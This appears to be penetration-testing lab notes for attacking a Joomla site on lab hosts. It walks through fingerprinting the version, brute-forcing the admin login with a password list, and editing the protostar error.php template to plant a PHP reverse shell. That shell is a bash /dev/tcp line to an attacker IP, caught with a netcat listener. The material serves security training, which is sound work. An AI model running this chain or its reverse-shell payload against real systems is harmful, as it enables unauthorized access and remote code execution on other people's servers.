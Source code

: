 
We can often fingerprint Joomla by looking at the page source, which tells us that we are dealing with a Joomla site.
```shell-session
curl -s http://dev.inlanefreight.local/ | grep Joomla

<meta name="generator" content="Joomla! - Open Source Content Management" />
```

The `robots.txt` file for a Joomla site will often look like this:
```shell-session
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

We can also often see the telltale Joomla favicon (but not always). We can fingerprint the Joomla version if the `README.txt` file is present.
```shell-session
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

In certain Joomla installs, we may be able to fingerprint the version from JavaScript files in the `media/system/js/` directory or by browsing to `administrator/manifests/files/joomla.xml`.

```shell-session
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```

Fingerprint Joomla version via XML (silent & clean)
```
curl -s http://app.inlanefreight.local/administrator/manifests/files/joomla.xml | grep -i '<version>'
```

Use [joom3y](https://github.com/dietcokesec/joom3y) for fast login brute-force
```
python3 main.py -u http://app.inlanefreight.local -w rockyou.txt -usr admin -v
```




If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://dev.inlanefreight.local/administrator/index.php?option=com_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.

From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu.
```
http://dev.inlanefreight.local/administrator/index.php?option=com_templates
```

Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

Finally, we can click on a page to pull up the page source.
Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.119/4444 0>&1'");
```
Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.

Start a listener 
```
nc -lvnp 4444
```

This will give us a reverse shell which we use.
```shell-session
curl -s http://dev.inlanefreight.local/templates/protostar/error.php 
```